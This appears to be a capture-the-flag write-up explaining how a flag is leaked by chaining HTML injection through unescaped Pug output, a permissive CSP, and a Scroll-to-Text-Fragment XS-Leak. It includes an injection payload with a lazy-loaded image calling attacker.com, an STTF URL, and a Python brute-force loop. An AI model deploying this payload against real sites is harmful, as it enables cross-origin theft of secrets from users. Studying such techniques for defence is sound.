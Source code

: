 This challenge is a challenge where the core goal is stealing FLAG by performing HRS (HTTP Request Smuggling) vulnerabilities and XSLeak using STTF, with various vulnerabilities linked, but we focus on analyzing parts performing XSLeak using STTF.

```jsx
.alert.alert-success(role='alert')
| This token belongs to !{username}.
| If !{username} asks for your token, you can give them this token: #{token}.
```

The part where vulnerabilities occur core-wise in this section exists in the `username` part. In Pug templates, `!{username}` syntax means unescaped output, so HTML Injection can be performed directly in those fields. Also, solvers can know that external image loading is possible since `img-src` allows all URLs among CSP policy settings.

```
Content-Security-Policy: default-src 'self'; img-src data: *; object-src 'none'; base-uri 'none';
```

Solvers could create attack syntax that leaks direct FLAG values using these two and STTF functionality. Solvers injected malicious HTML syntax that detects whether text matching work actually occurred on pages when using STTF functionality through Lazy Loading.

```html
<div class="min-vh-100">Min-height 100vh</div>
<div class="min-vh-100">Min-height 100vh</div>
<div class="min-vh-100">Min-height 100vh</div>
<img loading="lazy" src="https://attacker.com/callback" />
```

This uses Bootstrap's `min-vh-100` class to configure each `div` to occupy viewport height. Due to this, Lazy Loaded images are positioned outside viewport during initial page rendering.

After successfully injecting HTML Injection and completing settings, solvers send requests searching specific text using STTF functionality. If text exists within pages, browsers perform automatic scrolling to that text.

```html
/verify?token=ADMIN_TOKEN#:~:text=TISC{partial_flag
```

If scrolling occurs to text, Lazy Loaded images previously outside viewport enter viewport, causing browsers to try rendering those images. At this time, HTTP requests are sent to solvers' servers, so scroll occurrence can be detected using this. The reason scroll occurrence can be detected like this is that when HTML Injection actually proceeds, pages are rendered as below and `div` occupies all vertical space in viewport.

```jsx
This token belongs to <div class="min-vh-100">...</div><img loading=lazy src="...">. If <div class="min-vh-100">...</div><img loading=lazy src="..."> asks for your token, you can give them this token: TISC{ADMIN_FLAG}.
```

When actual text matching occurs through STTF, automatic scrolling occurs to that text position, so requests are sent to attacker servers. (FLAG text is located at the bottom of pages.) Solvers can leak entire FLAG by automating this attack using brute forcing.

```python
for char in charset:
    test_fragment = f"TISC{{{current_flag}{char}"
    smuggled_request = create_smuggled_request(test_fragment)

    if callback_received():
        current_flag += char
        break
```
